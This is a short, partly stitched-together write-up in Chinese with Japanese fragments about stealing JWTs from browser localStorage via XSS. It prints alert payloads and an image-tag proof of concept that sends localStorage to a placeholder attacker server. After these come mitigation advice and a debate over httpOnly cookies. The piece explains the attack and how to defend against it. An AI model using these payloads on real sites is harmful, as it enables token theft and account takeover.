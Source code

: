 ```
<script>alert(localStorage.getItem(‘key’))</script>


<script>alert(localStorage.getItem(‘ServiceProvider.kdciaasdkfaeanfaegfpe23.username@company.com.accessToken’))</script>
```


如上图所示, 我们还需要弄清楚"key"这个唯一标识符是什么：

我猜有的人可能已经想用暴力破解的方式了吧, 或者写一个JavaScript脚本来迭代localStorage中的每一个对象  这里我们可以使用JSON.Stringify来实现, 这个函数可以将localStorage中存储的内容转换为字符串并绕过这种障碍：

下面给出的是利用XSS窃取JWT的完整PoC：

```
<img src=’https://<attacker-server>/yikes?jwt=’+JSON.stringify(localStorage);’--!>

```

根据不同目标系统的实现机制, 上述的PoC可能会给我们提供IdToken、accessToken或其他相关的令牌  IdToken可以用于身份验证并伪装成有问题的用户, 其本质上是帐户接管, 而accessToken可用身份验证端点来生成一个的全新IdToken  

这里最大的问题就在于, 我们无法将传统的Cookie安全标志应用到localStorage中存储的项  


缓解方案


1、永远不要在localStorage中存储任何敏感信息, 比如说JWT或其他关键的凭据信息  localStorage的目的是通过保存网站状态和设置来为用户提供更好的体验度  

2、可以考虑使用Cookie头  

3、设置Cookie头保护机制  

4、永远不要在页面、URL以及其他源代码中显示令牌  

---

无论你把Auth Token放在localStorage还是放在cookie中, 都容易受到XSS风险的影响(在同一个域内......)  

tokenを保存する場所

localStorage
cookie
cookie (http only)
メモリ内 (変数)

人们常说, JWT令牌不应该放在localStorage中  
原因是它们很容易被Javascript读取, 所以如果有XSS, 一个非预期的脚本将被触发, 结果是令牌被盗  
作为一种对策, 许多地方都推荐使用cookies(仅限http)  


が、cookie (http only)も実は無意味

localStorage vs Cookies for Auth Token Storage - 为什么httpOnly Cookies不是更好？

如果有XSS, 脚本无论如何都会被移动   '但是cookie(只有http)不能被脚本读取, 所以这并不重要！' 但是, 如果攻击者创建了自己的服务器, 并在fetch中设置凭证："include", 他就可以把所有东西都发送到攻击者的服务器上, 包括仅有的http cookies  


が、同ドメインな場合のみである

